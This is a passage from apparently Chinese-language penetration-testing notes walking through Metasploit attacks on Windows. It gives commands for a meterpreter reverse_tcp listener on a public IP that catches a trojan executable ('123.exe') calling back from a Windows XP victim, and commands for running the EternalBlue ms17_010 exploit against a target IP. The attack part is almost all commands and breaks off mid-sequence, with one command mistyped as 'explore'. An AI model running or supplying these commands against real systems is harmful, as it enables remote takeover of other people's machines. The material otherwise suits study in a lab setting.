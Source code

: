 ###### 设置tcp监听

```
set payload windows/meterpreter/reverse_tcp

set lhost 212.129.238.18

#输入开始监听
explore
```

![image-20220317152306277](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cwpjmmdoj20uk0e640c.jpg)

##### 3）木马上线

当被攻击的机器（我的是windows xp）点击生成的123.exe木马时，即可以监听到木马上线

![image-20220317152638860](https://tva1.sinaimg.cn/large/e6c9d24ely1h0iuue7l2yj217009st9y.jpg)

#### 2）ms17_010

```
 #进入msf
msfconsole

#数据库搜索ms17-010
search ms17-010

#进入漏洞
use windows/smb/ms17_010_eternalblue

#设置被攻击者的ip
set rhosts 192.168.5.59

#运行
run

#解决乱码
chcp 65001
```



##### 搜索攻击载荷

```
search ms17_010
```

![image-20220317135133016](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cu2a1hocj21xs0cgn0o.jpg)

##### 永恒之蓝攻击载荷

```
use 2
```
